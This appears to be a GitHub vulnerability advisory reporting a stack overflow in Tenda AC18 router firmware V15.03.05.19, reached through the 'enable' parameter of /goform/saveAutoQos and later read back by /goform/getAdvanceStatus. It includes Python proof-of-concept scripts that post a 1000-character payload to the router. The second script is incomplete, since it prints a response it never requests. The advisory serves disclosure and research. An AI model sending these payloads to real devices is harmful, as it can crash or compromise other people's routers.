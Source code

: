 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/saveAutoQos` url. The `nptr` variable receives the `enable` parameter from a POST request and is stored in the configuration item named `qos.auto.en` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_201743.png)

`qos.auto.en` configuration item can  be retrieved through the GetValue function in the `/goform/getAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_202346.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/saveAutoQos"
payload = "a"*1000

data = {"enable":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getAdvanceStatus"

print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
